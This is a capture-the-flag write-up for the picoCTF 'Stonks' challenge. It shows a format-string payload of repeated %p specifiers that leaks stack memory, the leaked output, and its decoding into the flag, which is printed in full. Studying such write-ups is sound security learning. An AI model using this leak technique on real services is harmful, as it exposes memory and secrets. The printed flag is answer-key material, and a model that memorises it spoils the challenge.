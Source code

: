 # Stonks

## FLAG: picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}

## STATUS: Complete

Category: Binary-Exploit

Description: I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 27912

> wget "https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c"

pass the program %p to get a valid pointer - so no sanitization of user input

if we pass the program a ton of %s%s%s%s%s%s%s we can see the overflow error / core dump

1
%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p

## Output

0x97643b0__0x804b000__0x80489c3__0xf7efdd80__0xffffffff__0x1__0x9762160__0xf7f0b110__0xf7efddc7__(nil)__0x9763180__0x2__0x9764390__0x97643b0__0x6f636970__0x7b465443__0x306c5f49__0x345f7435__0x6d5f6c6c__0x306d5f79__0x5f79336e__0x32666331__0x30613130__0xff9a007d__0xf7f38af8__0xf7f0b440__0x2753b500__0x1

Then run buffer.py to use the output to decode the bytes. - This results in:

b"picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}\x00\x9a\xff\xf8\x8a\xf3\xf7@\xb4\xf0\xf7\x00\xb5S'"
